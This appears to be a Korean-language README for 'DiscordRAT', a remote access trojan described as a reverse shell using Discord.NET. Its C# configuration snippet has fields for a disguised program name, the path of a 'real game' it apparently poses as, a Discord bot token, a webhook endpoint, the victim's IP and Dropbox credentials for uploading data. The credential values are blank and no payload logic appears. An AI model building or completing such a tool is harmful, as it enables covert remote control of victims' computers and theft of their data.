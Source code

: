 ![venom](https://capsule-render.vercel.app/api?type=venom&height=200&text=DiscordRAT&fontSize=70&color=0:8871e5,100:b678c4&stroke=b678c4)

Discord.NET 을 이용한 reverse shell
##Usage

```C# 8
private static GET GET = new GET();
// 본 프로그램의 이름
public string filename = "";
// 실제 게임의 위치
public string path = "";
// 프로그램 버전
public string version = " | 2.23v";
// 디스코드 봇 토큰
public string bot_token = "";
// 웹훅링크
public string EndPoint =
@"";
// ip
public string ip = GET.ip();
// 드랍박스 연결
public DropboxClient dropbox_ = new DropboxClient(
                                      oauth2RefreshToken: "",
                                      appKey: "",
                                      appSecret: "");
// 웹에 post를 보내기위한 HttpClient선언
public HttpClient client_ = new HttpClient();
```
